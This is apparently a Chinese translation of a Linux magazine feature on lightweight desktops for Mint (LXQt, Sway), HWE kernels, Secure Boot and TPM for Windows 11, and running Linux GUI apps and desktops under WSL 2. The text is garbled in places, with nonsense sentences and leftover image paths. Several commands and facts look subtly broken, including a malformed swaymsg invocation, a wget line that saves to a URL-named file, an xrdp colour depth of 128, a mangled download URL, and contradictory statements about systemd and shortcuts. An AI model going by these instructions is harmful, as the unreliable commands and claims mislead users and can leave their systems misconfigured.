如果你痴迷于 Qt 工具包，但渴望一个更轻量、更灵动的桌面，那么 LXQt 是不二之选。这就是为什么当前的 Lubuntu LTS 版本采用了它，它也可以为你像 Mint 这样轻量级且像海鸥般敏捷的桌面提供动力。接下来的内容我们将简略带过，主要是因为我们完全放弃了庞大的 LXQt。但如果你想要一些更用户友好、且不那么依赖“体操式”键盘快捷键的东西，LXQt 或许正适合你。

LXQt 是由 GTK2 驱动的 LXDE 桌面的精神继承者，LXDE 曾是 Raspberry Pi 的默认桌面。随着我们转向 GTK3（当时它臃肿得离谱），LXDE 与 RazorQt 协作，结果产生了 LXQt。你可以通过简单的 `sudo apt install lxqt openbox` 来安装。如果你还没有安装 LXQt，它会引入 xorg-server 和一些依赖项，但如果你已经安装了 Qt 等，其占用空间将微乎其微。记得先拍个快照！

启动 LXQt 时，系统会提示你选择窗口管理器。我们建议选择 Openbox，但如果你真的想让它变漂亮，它也可以使用 Cinnamon 的 Mutter、Xfce4 xwinvm 或 Xfwm4，或者 Plasma 的 Kwin。Openbox 是目前最轻量的，通过一个非科学的比较，一个纯净的 LXQt/Openbox 会话大约占用我们 500MB 的内存。



LXQt 可能是最轻量的桌面环境，同时还能提供我们所依赖的所有便捷 GUI 辅助功能。


## 超轻量级 Mint

在轻量级的 Sway 桌面环境下，拥抱极简主义并学习一些“键盘体操”。

我们最喜欢的 Ubuntu 衍生版之一是 Regolith Linux。它选择使用超轻量级的 i3 平铺窗口管理器，这一点非常独特。平铺窗口管理器需要一段时间来适应，并且自带大量配置。Regolith 提供了极其合理的默认设置和易于学习的键盘快捷键（i3 高度依赖键盘驱动，但转换过来的用户表示他们再也不想回去了）。此外，它仍然拥有所有 GNOME 的基础设施和用于管理设置与配置的应用程序，因此你所有的系统管理工作都可以通过熟悉的 GUI 应用来完成。众所周知，我们也非常喜欢 Pop!_OS，尤其是它的 COSMIC 桌面。

没有理由在 Mint 中不能拥有这类功能；i3 窗口管理器就在 Ubuntu 的软件仓库中。但我们要尝试一些不同的东西。Sway 是一款受 i3 启发而开发的轻量级窗口管理器，不同之处在于它是为 Wayland 设计的。如果你熟悉 i3，你会很快上手 Sway；大多数默认按键相同，你甚至可以使用自己的 i3status 脚本。事实上，你应该可以直接使用你的 i3config 文件而无需修改。Sway 也在 Ubuntu 仓库中，但版本较旧（2020年1月）。要运行更新的版本需要花费一些精力去编译，所以我们就安装仓库版本来初步尝试一下。

```
sudo apt install sway
```

和之前一样，登录界面现在应该会出现一个 Sway 会话。进入吧！你应该能看到一个相当吸引人的 Sway 标志和一个顶栏。尝试用鼠标操作（在边界摩擦或移动光标），你会意识到你已经不再处于 Cinnamon 环境中了——除了双击标志进入设置外，没有任何东西会对鼠标做出反应。这就是基于 i3 的窗口管理器的特点：一切都由键盘驱动。尝试这个简单的“关于”命令：按下 Super 键（Windows 键的通用名称）和 Enter 键。一个终端应该会立即弹出。从这里开始，你可以试着写一小会儿你的第一个 Bash 脚本。

## 窗口平铺是一门艺术

> “为了最大限度地利用窗口平铺，就像使用 Etch A Sketch 绘图板一样，你会想要结合使用水平和垂直布局。”

现在尝试按下 Super+2：终端会消失，但实际上并没有——看向界面左上角，你会发现我们已经移动到了一个虚拟桌面。如果你尝试用 Super+3 打开另一个，你会发现这没有发生。我们不需要第三个桌面，因为我们还没有打开其他窗口，所以 Sway 静默地将之前的工作区保留到了 3。

**(计算机操作系统主界面组件桌面)。** 该功能采用了平铺窗口模式，i3 在没有原生维度反向占用空间的情况下，为用户提供了一个温和的入口，让他们体验键盘快捷键与鼠标手势和谐统一的快感与效率。

回到工作区 1，按下 Super+Enter 打开另一个终端。现在你可以明白平铺窗口管理器的精髓所在了。第一个占据整个桌面的终端窗口会顺从地向左移，为右侧的新终端腾出空间。如果你愿意，可以在这里启动任何你想要的程序；我们使用终端是因为它们简单且无需点击即可输入。



但 Sway 也有自己的应用程序启动器。按下 Super+D，你会看到一些按字母顺序排列的命令（其中一些可能没用，可能还有几个以 A 开头）。输入 `firefox` 的前几个字符，你会发现列表迅速缩小。当 `firefox` 被蓝色高亮显示时，按下 Enter 键即可启动！

如果你已经打开了几个窗口，现在可能会觉得有点拥挤。你可以关闭其中一个（使用 Ctrl+q 或传统的标题栏关闭按钮）。现在也是介绍窗口缩放的好时机。等到有两个窗口打开时，按下 Super+R 进入缩放模式。你会看到状态栏左上角有相关提示。现在你可以使用 H 和 L 键（像 Vim 一样）来让活动窗口（记住你可以通过将鼠标悬停在新打开的窗口上来更改活动窗口）变宽或变窄。完成后，按下 Escape 退出缩放模式，然后在焦点处于最左侧窗口时按下 Super+E。砰！垂直窗口。请注意这里区分大小写，因为 Super+Shift+E（通常简写为 Super+E）是退出 Sway 的快捷键。

为了最大限度地利用窗口平铺模式，就像使用 Etch-a-Sketch 一样，我想给你一个关于结合水平和垂直布局的速成课程。这起初看起来很直接，但有一些细微之处最好通过亲自实践来体会。之前，Super+E 快捷键一次性作用于多个窗口并使它们统一平铺。当它们沿共同维度分组时，我按下 Super+V 作用于其中一个，然后对其他打开的窗口按下 Super+E 来平铺任何其他窗口（就关键点而言），它将以另一种方向打开。通过这种方式，你会发现 Super+E 和 Super+V 充当方向触发器，你会注意到前者收紧窗口的右边缘，而后者收紧底边缘，这暗示了下一个窗口将如何生成。

Sway 的默认配置文件位于 `/etc/sway/config`，但与其直接编辑该文件，不如将其复制到 `~/.config/sway/config` 以进行个性化修改。例如，下面这一行：

```
output * bg /usr/share/
```

为所有显示器设置背景。你可以通过修改此项来更改背景，或者为每个显示器设置自定义背景。`output` 指令实际上控制所有与显示器相关的各种功能。例如，如果你在虚拟机上运行 Sway，你可能需要手动设置触摸屏功能，可能需要添加一行如下格式的内容：

```
output Virtual-1 resolution 1280x720 pos 0,0
```

以确保屏幕截图具有正确的纵横比。你可以通过运行以下命令获取显示器名称和模式的列表：

```
swaymsg -t -g get_outputs
```

Sway 和 i3 以低内存占用而闻名。但为了保持低占用并维持极简桌面的美学，你也必须使用更轻量级的应用程序。为了向你展示这条法则，你必须使用 nnn 文件管理器、w3m 浏览器、mpv 视频播放器以及来自 mpd 音乐播放器的 ncmpcpp 命令。我们将演示如何设置 dmenu Gnome 格式以实现简洁和轻量。

在安装 Sway 时你可能已经注意到它引入了一个名为 Suckless Tools 的软件包。Suckless (https://suckless.org/) 代表了一种软件极简状态的思维模式，包含了一系列超低资源利用率的实用工具和守护进程。其中包括 dwm 窗口管理器、suckless 终端等。我们在“LVFS24”中涵盖过它们，但对我们大多数人来说它们实际上没什么用，因为大多数并不支持 Wayland。

安装这些主要是为了 dmenu 程序，它（通过 Xwayland）提供了我们之前接触过的便捷的 Super+D 启动器。

祝你调整愉快！


> 在使用 Sway 的登录界面时，你需要使用 xdo shutdown：快速按下 Super-Shift+Q 即可实现。


## 内核更新

由于是 Ubuntu 长期支持 (LTS) 内核版本的衍生版，Mint 默认使用相同的 5.4 系列内核。由于近期内核的主流版本已达 5.14，Canonical 为 Ubuntu 内核打包了 5.15 的所有功能和修复。因此，所有 5.4 系列都是通往当前内核的过渡分支（见 kernel.org）。在 Ubuntu 中使用主线内核（mainline kernels）一直是可能的，但不推荐；更好的方法是激活硬件启用 (HWE) 内核最终调整。

这将为你提供一个更新的内核（可能会从 5.8 提升到 5.11，该版本经过了 Canonical 的补丁修复和测试），并作为刷新后的新栈（包括更新版本的 X.org、lldbrm 和 Wayland）。我们在 DVD 页面提到过 Mint 的 Edge 版本（与 net 浏览器无关），但绝对不值得仅仅为了获得新内核而重新安装系统。同样，除非某些功能损坏，否则你不应该安装 HWE 栈，因为它更像是一个 Beta 集，而不是由一个版本号更大的 suckless 内核支撑。

桌面版 Ubuntu 现在默认获取 HWE 内核，Pop!_OS 似乎也是如此，但 Mint 不是。没关系，因为安装很简单：

```
sudo apt install --install-recommends linux-generic-hwe-20.04
```

如果你使用的是 Nvidia 闭源驱动，这还不够，因为你还需要安装相应的 nvidia 软件包来匹配。你可以通过以下命令获取：

```
sudo apt install --install-recommends linux-modules-nvidia-NNN-generic-hwe-20.04
```

其中 NNN 是你的 GPU 所需的 Nvidia 驱动版本。你可以通过运行 `ubuntu-drivers list` 来查明。请注意，许多用户在 5.8 HWE 栈中遇到了问题（声音、图形、虚拟化），而这次的情况可能会类似。


## LINUX 与 WINDOWS

### 旧日的敌对已成往事，古老的界限已然模糊。
#### Jonni DBell 探讨这种全新的“雷德蒙德-企鹅”和谐关系。

早在 2015 年，微软就决定它“热爱”Linux。这种热爱深到它在 Windows 中为其构建了一个子系统：适用于 Linux 的 Windows 子系统（WSL），使 Linux 程序和开发栈能够原生运行。官方声明中甚至包含了一个心形表情符号，我们本想在这里原样重现，但正文中的版权图片显然会让印刷厂的警铃大作并冒出烟雾。

无论如何，在当时，有些人对微软的意图持怀疑态度，因为“拥抱、扩展、消灭”（Embrace, Extend, Extinguish）的信条和 1995 年的“万圣节备忘录”（Halloween papers）在他们心中依然记忆犹新。但无需深奥的科学知识就能理解，微软这样做是为了接纳 Linux 用户（主要是开发者），而不是强迫他们大规模背离。

其继任者 WSL 2.0 于 2019 年公布，它配备了一个完整的 Linux 内核，而不是像 Wine 那样的（或者无论 Wine-like 的反面是什么）翻译层。WSL 2.0 带来了更快的性能、更迅速的文件系统以及更高的应用程序兼容性。今年 4 月，一项令人兴奋的新功能发布了：WSLg，它使图形化工具能够在 WSL 上无缝运行。不再需要强行在 WSL 上安装 X server，无需重定向 PulseAudio——天哪，它甚至支持 Wayland。因此，你不仅可以在 Windows 上运行 Bash（或 Ubuntu）（这是 WSL 的工作标题），还可以运行 Blender、GIMP 和 Krita。我们将看看在 Windows 上设置这一切有多简单，它如何成为学习 Linux 的绝佳方式，以及如何用它来做一些古怪而美妙的事情。

最后，我们将探讨 Linux 为弥合与闭源对手之间的分歧所做的一些新旧努力。文件系统、网络、启动加载程序——是的，我们在某个阶段把这些全部搞崩溃过，但现在情况已经足够成熟和稳定，只需少量的配置更改，一切都应该能正常工作。

## 平台、可信平台与 Windows 11

Windows 的硬件要求一直以来都令人困惑，这次也不例外……

当 Windows 8 公布时，人们担心微软会利用安全启动（Secure Boot）——当时新推出的 UEFI（统一可扩展固件接口）的一个可选功能——来限制其他操作系统的安装。安全启动仅允许启动由注册在 UEFI 中的密钥签名的 EFI 镜像。由于几乎所有硬件在出厂时都携带微软的公开签名密钥，很容易看出这种担忧从何而来。然而，为了帮助需要自有启动加载程序的 Linux 发行版（或任何其他操作系统）处理安全启动，微软使用其“魔力密钥”为一个名为 Shim 的小程序签名（他们可能不会为庞大复杂的程序签名）。

Shim 是许多发行版（包括 Debian 和 Ubuntu）用于启动其自身（第二阶段）启动加载程序的第一阶段启动加载程序。安全启动的工作原理是每一阶段在执行下一阶段之前先检查其签名，从而从初始执行阶段建立一个信任根。因此，发行版维护者将自己的密钥嵌入到 Shim 中，然后这个特定发行版的 Shim 就成为了由微软提供的已签名软件包。当 Shim 检查发行版提供的 GRUB 启动加载程序时，它可以信任并继续。对内核镜像工具集以及随后加载的模块和固件进行签名是可能的，因此如果你使用可信的加密技术和微软签名机构，安全启动将使恶意软件很难在启动加载程序或早期启动过程中被加载。

### 关于信任的问题

当然，并不是每个人都会信任微软，或者信任安全启动。这没关系。因为在 2013 年，当微软规定“Windows 8 Ready”硬件应在出厂时启用安全启动时，他们同时也规定，如果可能的话，该功能应当可以被禁用，并且用户应该能够安装自己的密钥（MOKs（机器所有者密钥））并用它们为任何想要的启动加载程序签名，从而使最终的信任（以及最终的责任）落在用户身上。

虽然“Windows 10”硬件也遵循类似条件，但关于安全启动必须可更改的要求被弱化为了一个“建议”。尽管如此，我们从未遇到过一台无法禁用安全启动的 Windows 10 机器。如果你是自己组装系统，那么无需担心。那些“Ready”条件是针对预装操作系统的 OEM 厂商的。现在 Windows 11 已经到来，人们审视的不再是安全启动条款，而是与 TPM 芯片相关的条款。

可信平台模块（TPM）芯片是微小的处理器，具有小规模的特权内存存储，应用程序可将其用于存储密钥、身份验证数据和其他秘密。它们还可以执行哈希运算或证明是否被篡改。一台 PC 要完整支持 Windows 11，必须支持 TPM 2.0。目前，如果你的设备不符合 TPM（或其他）要求，仍然可以通过官方 ISO 安装 Windows 11，但微软表示此类安装不受支持，并且在未来可能无法获得安全更新。事实上，我们可能会惊讶地发现 Windows 11 的 Insider 预览版运行在 Pi 400 以及 Nokia Lumia 950XL（最后一批运行 Windows Phone 的设备之一）上。

> 平铺式开始菜单和 Windows 桌面很迷人，但它们换不来爱——Ubuntu 能让你心情愉悦。

### 把你的 TPM 全部给我

TPM 芯片在过去十年的大部分时间里都存在。TPM 2.0 于 2014 年引入，大多数 2016 年及之后的母板都包含一个。TPM 也可以在固件中实现（即所谓的 fTPM），但会对安全性造成轻微影响，因为一些新型的 Spectre/Meltdown 风格的攻击表明，“理论”并不总是等于实践。不过，fTPM 对于 Windows 11 的要求来说已经足够好了。你可能需要通过 UEFI 启用 TPM（不支持单独的经典 BIOS），在那里它有许多名字，微软把它们凑成了一堆。例如包括“Manage TPM”。

Linux 完全支持 TPM，可用于保护 SSH 密钥（见 http://blog.habets.nl/2011/7/TPM-chiming-protection-SSH-keys-property）、解锁 LUKS 加密卷（通过 systemd-cryptsetup）以及启用安全启动（见 http://stevenbrown.net/threats.tetraova.com/secure-boot-tpm-2.html）。TPM 1.2（TSS a la Troposphere）和 TPM 2.0（tpm2-tools）有各自独立的软件栈，在 Arch Wiki 页面 https://wiki.archlinux.org/title/Trusted_Platform_Module 可以找到这些内容的精简总结。

## Windows 中的 Linux

先不管 Windows 11，最新版本的适用于 Linux 的 Windows 子系统绝对才是核心所在。

你是那个听起来有点阴森的 Windows Insider 计划的成员吗？你是否安装了听起来更阴森的 Windows 10 预览版（至少是 build 20262）？那么运行 WSL 2.0 里的 Linux 就很简单了；只需打开一个具有管理员权限的 Windows 命令提示符并运行 `wsl --install`。这在 Windows 11 的预览版上同样适用。经过几次点击、弹窗和一次重启，你就可以开始使用了。

实际上，GUI 应用支持功能的安装量相当大，所以现在可能是泡杯茶的好时机。等你回来，WSL、微软的虚拟机平台、自定义 Linux 内核和 Ubuntu 应该都已经下载完毕。其他发行版也可用；例如，你可以指定 `wsl --install -d Fedora` 来安装 Fedora，或者在已经安装了 WSL Ubuntu 的情况下额外安装。非预览版用户可以通过激活 Windows 更新助手来实现。

对于 WSL 2，我们首先必须启用虚拟机平台，这需要以管理员身份在 PowerShell 中输入此行：

```powershell
dism.exe /online /enable-feature /featurename:VirtualMachinePlatform /all /norestart
```

完成此操作并运行子系统设置后，前往微软最新的内核下载页面，运行此处的安装包：https://www.wslstorestorage.blob.core.windows.net/wslblob/wslupdate_x64.msi。ARM64 设备有单独的版本。接下来，我们需要在 WSL PowerShell 中将 WSL 2 设置为默认版本，非常简单：

```powershell
wsl --set-default-version 2
```

然后前往 Microsoft Store (https://aka.ms/wslstore) 安装一个发行版。那些知名发行版都是免费的，但要小心——像 Ubuntu Pro for Enterprises 这样的定价可能会让你感到困惑。

### 无忧安装

> “WSL 2.0 最神奇的事情之一就是它无需任何额外配置即可支持 GUI 工具。”

要么加入 Insider 计划并升级，要么按照下面的手动安装步骤操作。首先启动具有管理员权限的 PowerShell，在意识到命令行也能让你在 Windows 上入门之后，输入安装命令：

```powershell
dism.exe /online /enable-feature /featurename:Microsoft-Windows-Subsystem-Linux /all /norestart
```

这将安装 WSL 1。此时你可能想简单试用一下。为了获得最新版本，如果你运行的不是 build 18362（通过运行 winver.exe 检查）或更高版本（ARM64 为 19041 或更高），你需要使用 Windows 更新助手来实现。

#### 创建独立账户

无论你选择什么方式，安装后的第一步是根据提示设置用户名和密码。这与你在机器上设置的任何其他账户完全无关，也与同一台机器上其他 Windows 用户设置的 WSL 账户分开。换句话说，WSL 机器实际上是单用户事务，因为它们是单个 Windows 用户的专属。然后，就像在真实的 Linux 机器上一样，你应该进行系统更新：

```bash
sudo apt update
sudo apt upgrade
```

接下来怎么做取决于你。你可以只安装 Vim 和 build-essentials 软件包，然后开始编写最新的 C 项目。或者你可能想安装 Nvidia Container Toolkit，它会设置运行 GPU 加速 Docker 所需的一切。

图像，因此你可以尽情地使用 CUDA、PyTorch 和 TensorFlow 进行机器学习。

或者你可能想尝试其他东西。WSL 2.0 最令人惊叹之处之一是它无需任何额外配置即可支持 GUI 工具。它甚至拥有自己的 Wayland 合成器。在之前的版本中，虽然可以使用图形工具，但需要在 Windows 端运行一个 X 服务器（如 GVaiL、VcXsrv 或 X410）。非常感谢 @Sdf Staff 建议我们目前的 GUI 工具就是 Microsoft Edge，而我们最喜欢的幽默类型是反讽。如果你想在微软风味的 Windows 版本中运行微软浏览器的 Linux 版本，你现在就可以运行它！

```bash
sudo apt update
sudo apt install software-properties-common apt-transport-https wget
wget -O https://packages.microsoft.com/keys/microsoft.asc https://packages.microsoft.com/keys/microsoft.asc
wget -q https://packages.microsoft.com/keys/microsoft.asc
sudo add-apt-repository "deb [arch=amd64] https://packages.microsoft.com/repos/edge stable main"
sudo apt install microsoft-edge-stable
```

现在 Edge 应该会出现在开始菜单中，或者你可以通过一个简单的命令启动它：`microsoft-edge`。

通过这种方式，人们也可以轻松安装来自 Redmond（微软总部）的奇迹，以及那些有时并不那么以 Windows 为中心的基于 Chromium 或 Qt 的软件程序。流行的开源程序正是如此，像 GIMP、Blender、VLC 这些都有其官方的 Windows 等效版本。如果我有时想在 WSL 上运行 Steam 或 Spotify，也许会有替代方案。Linux 版本的 Transmission torrent 客户端可能是一个例外——它有 Windows 移植版，但被描述为早期预览版。我有我自己的部分看法，但关于 Torrent 客户端（即 torrent 门户）的偏好取决于你，不过如果我的看法正确，它具有 Linux 版本的一些可靠性。这仅仅是一个问题：

`sudo apt install transmission`

Visual Studio Code（或 VSCode 分支）在 Linux 上变得越来越受欢迎。它正迅速成为 Raspberry Pi 用户的首选代码编辑器。我们可以像上面安装 Edge 一样安装 Linux 版本，但与其这样做，我们建议尝试不同的方法。最近的 VS Code 版本支持 WSL-remote 扩展，因此你可以安装 Windows 版本（来自 https://code.visualstudio.com），然后轻松访问你的 WSL 文件。

为了使此功能生效，请确保在安装开始时的“选择附加任务”对话框中勾选了“添加到 PATH”。然后从扩展市场中搜索 Remote Development 并安装扩展包（该包支持远程连接到 WSL、容器或通过 SSH）。根据 https://code.visualstudio.com/docs/remote/tutorials/wsl-remote 的文档，你现在应该可以通过打开 Ubuntu 命令行并运行 `code .` 从 WSL 内部启动 VS Code。这对我们不起作用，但如果我们使用命令面板 (Ctrl+Shift+P) 中的 `Remote-WSL: Connect to WSL` 命令，我们能够使其运行，这揭示了它一些有趣的功能。其中包括能够在 WSL 中打开文件夹，并配备其自带的终端。如果你在一个刚启动的 WSL 2.0 实例中按下 `Ctrl + \` 命令，你会发现运行的进程真的不多。几个 init 进程，Bash 以及你自己的 Top。完全没有某些人指责微软的那种臃肿感。这仅仅是因为很多镜像操作发生在不可见的辅助服务虚拟机中。它运行一个基于微软自有 CBL（为 Azure 云开发的 Common Baseline Linux 镜像）的容器化发行版，该镜像处理 Windows HAL、Yandex 和 PulseAudio，并通过 WFCore 将其传输回 Windows。关于这个被称为 WSL2 的奇迹，请在 https://github.com/microsoft/wsl2 阅读更多内容。

为代码编辑器准备一个完全独立的实例并不总是最佳选择，但如果你尝试一下，WSL 扩展会让你感到强化和耳目一新。

## 外部文件系统 (FOREIGN FILESYSTEMS)

从 Linux 侧来看，你的 Windows C: 盘及其所有内容可以通过 `/mnt/c` 访问；而从 Windows 侧来看，你可以通过文件资源管理器，在 OneDrive、此电脑、网络等下方的 Linux 快捷方式（如果它还没消失）来查看你的 Linux 文件系统。虽然很方便，但不建议在 `/mnt/c/Users/...` 下安装程序或进行重量级的 I/O 操作。

Linux 文件系统运行在自己的块设备（`/dev/sdb` 或类似设备）上，这些设备是 WSL 的挂载点（该辅助驱动程序使工具能够无缝运行图形和音频）。在实践中，这意味着由于镜像机制，Windows 和 Linux 文件系统之间的性能会稍微高性能一些。WSL 2 使用 VHDX 虚拟磁盘镜像同样会降低速度，但它也提供了更多的灵活性和安全性。因此，在跨边界传输方面，WSL 1 的性能将优于 WSL 2。

如果你在 WSL 中运行数据库，但由于某种原因其文件必须在 Windows 中可见，那么你应该考虑将其降级到 WSL 1。更合理的方法是尝试将重型传输保持在 WSL 的“气泡”内部，即它自己的文件系统中。或者为你的机器添加额外的驱动器，并在 WSL2 中将其格式化为 Ext4（或任何你喜欢的 Linux 文件系统）。这样你将在 Windows 侧获得两全其美的效果（至少在没有额外工具的情况下），而且传输大文件或进行大量随机 I/O 的速度会快得多。

## Linux 桌面之年（在 Windows 上）

运行图形应用程序令人印象深刻，所以下一步是尝试运行一个完整的桌面。你还在等什么？

在 Windows 11 的 WSL 2.0 上运行一个真正的 Linux 桌面证明有点棘手。公平地说，WSL 是为了运行应用程序而构建的，而不是为了像传统的虚拟机那样运作。因此，Gnome 和 KDE 无法工作也就不足为奇了。它们依赖于在后台运行的各种守护进程和服务来将所有组件结合在一起。一些勇敢的人设法在 Windows 10 的 Ubuntu 18.04 上让 Xfce 桌面良好运行，但这对我们来说太旧了。我们使用 Ubuntu 20.04 会更好。如果你运行的是 Windows 10，我们建议你尝试通过 X410 服务器运行 Xway。这应该是：
`$ sudo apt install x11-xserver-utils` 
然后正确设置 `DISPLAY` 环境变量。WSL 2 的一个重大变化是，WSL 中的 127.0.0.1 不再指代 Windows 中真正的回环接口（X410 服务器监听的地方）。因此我们需要找到 WSL 的地址并相应地更新 `DISPLAY`。根据 `https://x410.dev/docs/wsl/using-x410-with-wsl2` 的指示，这可以通过 WSL 中的 `etc/resolv.conf` 发现。完成之后，剩下的就是告知 X410 允许“公共 (Public)”连接。你可能想要使用 Windows Defender 防火墙来限制这一点（如果你的机器没有其他防火墙）。然后你就大功告成了，无需任何其他配置。

X410 是一款备受推崇且偶尔有折扣的 Windows 10 X 服务器。尽管如此，我们依然推荐 X410。

### 采用另一种方法

虽然从技术上讲不属于 WSL 的职责范围，但在 Windows 11 上拥有一个 Linux 桌面仍然很不错（即便没有其他目的，也可以用来展示这个新潮的桌面与经过验证的经典桌面相比如何）。由于在 Windows 上使用原生 X 服务器对我们不起作用，我们决定尝试另一种方法：使用 Windows 自己的远程桌面协议 (RDP) 连接到运行在 WSL2 内部的桌面。为此，我们使用上述命令在 Ubuntu 中安装了 Xfce（注意，在某些情况下你可能还需要显式安装 `acl-setattr`），然后安装了 xrdp：

```bash
$ sudo apt install xrdp
$ sudo systemctl enable xrdp
$ sudo systemctl start xrdp
```

注意这个旧的 Sys V 风格的启动 init 脚本。WSL 不使用 Systemd，这对于某些人来说肯定是好消息，但这也可能是你目前无法在其中使用 Gnome 的部分原因。无论如何，我们正在使其运行。现在启动 Windows 中的远程桌面连接，并连接到 `localhost:3389`。

## 硬件加速的 WSL (HARDWARE-ACCELERATED WSL)

WSL 支持使用虚拟 GPU 运行，这样 Linux 程序就可以利用高性能显卡，并以接近原生的速度运行计算任务（目前还不是游戏）。TensorFlow 有一个由 WSL 支持的版本（见 `https://github.com/microsoft/TensorFlow`），能够在 Windows 10 和 11 桌面端进行快速的机器学习实验。此外，在 2021 年春季，d3d12 驱动程序成为了开源 Mesa 21.0 栈的正式组成部分。为了利用这一点并加速你的 Blender 渲染或其他任务，你可能需要将 Windows GPU 驱动程序更新到支持 WDDM 3.0 的版本。

Linux 的 NVIDIA CUDA 驱动程序是经过大幅精简的公开版本，应通过正常的 Windows Update 渠道作为二进制镜像安装。否则，它们可在 `https://developer.nvidia.com/cuda/wsl` 获取。AMD GPU 用户可以在 `www.amd.com/en/support/kb/release-notes/wmd-rn-wind-wsl-support` 找到更多信息和预览驱动程序。Intel 的驱动程序可以在 `https://bit.ly/ixf282-intel-drivers` 找到。

由于 WSL 上仅提供 Ubuntu LTS 版本，它们错过了这些令人兴奋的进展。因此，你可以安装 Arch 或其他前沿发行版。或者，你可以跳出正统的 Ubuntu 循环，加入精彩的社区预览版 (Community Preview)。更多路线图和下载链接请参考 `https://ubuntu.com/blog/announcing-ubuntu-on-windows-community-preview-wsl-2`。


最终我们的努力得到了回报，迎接我们的是一个极简但辉煌的 Xfce 桌面。

虽然收到警告称无法验证远程计算机的身份，但由于这里的远程计算机实际上就是本地机器，所以无需担心。随后应该会打开一个登录界面，在继续操作时，你应该选择 Xorg 会话，然后输入你的 WSL 凭据。第一次尝试时我们失败了，由于时间紧迫（我想我们已经处于“负时间”了 —— Ed），我们有些紧张。我们遇到了一个略显鼓舞人心的空白屏幕，但随后它又消失了，击碎了我们的希望。但随后我们想起 X 服务器会处理复杂的操作，因此我们对接下来的这个 trick 能实际奏效并没有抱太大希望。但它居然成功了！希望对你同样有效。在你的主目录（WSL 中）创建一个简单的会话文件，如下所示：

```
$ echo "exec startxfce4" > ~/.xsession
```

现在尝试再次登录。如果仍然不起作用，你可以随时退出 WSL，将其关闭并重新启动，运行命令：

```
$ logout
> wsl --shutdown
> wsl ubuntu
```

我们的会话似乎在 Windows 屏幕保护程序激活时就会中断，因此多次需要执行此步骤。一旦成功登录，值得注意的是，图像质量并非理想的像素级完美，但这可以通过调整提供显示器带宽的设置来优化。退出 Xrdp 并使用以下命令编辑配置文件：

```
$ sudo nano /etc/xrdp/xrdp.ini
```

接下来，找到 `max_bpp` 值，将其从 32 改为 128。在下方添加这一行：

```
xserverbpp=128
```

现在使用以下命令重启 Xrdp：

```
$ sudo /etc/init.d/xrdp restart
```

这样你应该就能获得一个稍微更清晰、响应稍微更灵敏的桌面。

## 学习工具

如果你在某种程度上是 Windows 专家，但对 Linux 不太熟悉，那么手头拥有这个远程桌面将是一个极佳的学习工具。它是虚拟机的一个有益替代方案。就像虚拟机一样，你可以导出安装镜像并在另一台机器上运行，或者在尝试某些冒险的命令行“忍者愤怒”操作之前，在同一台机器上运行另一个实例。要将 WSL 镜像导出为 tar 包，请在 Windows 命令提示符中运行以下命令：

```
$ wsl --export Ubuntu ubuntu.tar
```

如果你使用的是其他发行版，请将 `Ubuntu` 替换掉。你可以通过以下命令跟踪安装了哪些 WSL 发行版：

```
$ wsl --list --all
```

然后，你可以强制重新导入一个 tar 包，并为该发行版指定一个不同的名称：

```
$ wsl --import UbuntuTweak c:\mywsl c:\ubuntu.tar
```

将 `c:\mywsl` 替换为你想要存储发行版的文件夹。然后你可以通过以下命令启动它：

```
$ wsl.exe --distribution UbuntuTweak
```

经过几天的调整，WSL 发行版可能会变得很大（你可以通过在 WSL 内部使用 `df` 命令查看大小），或者直接损坏。要完全清除一个发行版，请使用以下“咒语”：

```
$ wsl.exe --unregister UbuntuTweak
```

Linux 一直在尝试与 Windows 的古怪之处协作，尽管经常有人抱怨，但它做得非常出色。

现代 UEFI 系统的所有者（只要你能进入 UEFI 设置）应该能够撤销由安装新操作系统引起的所有不希望的更改。UEFI 通过引导服务从 EFI 分区引导 OS 镜像，使用 EFI 运行时工具（Windows 和其他介质，使用 usb 存储都可以更改启动顺序，在 Linux 中可通过 efibootmgr 实现）可以更改启动顺序，并在某些情况下将其通用化。通常认为（但并非必然）新安装的 OS 会将自己置于启动顺序之首。这通常导致 Windows 立即启动，而进入 UEFI 设置以撤销此操作的唯一方法是在从开始菜单关机时按住 Shift 键。随后应该会出现一个重启至设置的选项。

不过，我们的体验出乎意料地顺利。我们在一部配置为启动 GRUB 的第 10 代 Dell XPS 上升级了 Windows 10，结果默认启动项（GRUB）原封不动地保留了下来。我们觉得不仅 Ubuntu 能够正确启动，而且用于关闭 Windows 的旧 GRUB 条目也能正常工作。我们原以为自己运气好，但即使运气不好，启动 Windows 也只需要在引导时进入 UEFI 设置并选择启动菜单即可。如果 UEFI 没有给我们这个选项，我们可以通过以下命令重启固件设置：

```bash
systemctl reboot --firmware-setup
```

对于旧的 BIOS 系统，情况则不同。每个硬盘可以拥有自己的主引导记录（MBR），任何安装的 OS 都可以将引导加载程序放在这里。确切地说，是引导加载程序的第一部分，因为 MBR 仅约 440 字节长，而像 GRUB 这样的现代引导加载程序很复杂，因此 MBR 包含一个骨架程序，告知机器引导加载程序的其余部分在硬盘的哪个位置。

GRUB Legacy 还有一个 Stage 1.5，它紧跟在 MBR 之后占用约 30KB 空间，包含用于 Stage 2 所在分区的相应文件系统驱动程序。GRUB v2 不需要这个分区阶段。它直接指向包含 Stage 2 的逻辑块地址（无需担心文件系统），然后 Stage 2 会加载主配置文件 `/boot/grub/grub.cfg`。

我们建议在不同的驱动器上引导不同的 OS，原因之一是防止一个 OS 的引导加载程序干扰另一个。当 Linux 驱动器在 Linux 和 Windows 之间共享时，这个问题尤为紧迫。Linux 发行版二进制文件通常足以提供启动菜单，但通常第二个发行版的条目不会尊重任何这些设置，并可能会写入 `/etc/default/grub`，从而导致问题。此外，如果其中一个发行版是 Arch Linux，它经常不被 `grub-install` 脚本检测到。在 Arch 端安装 `os-prober` 包可以解决这个问题。自然，这一切会导致关于抹除驱动器上其他引导加载程序的厌烦担忧。发生这种情况时恢复 GRUB 足够简单，但更好的做法是通过给 Windows 分配独立驱动器来避免其发生。

## 与星共舞

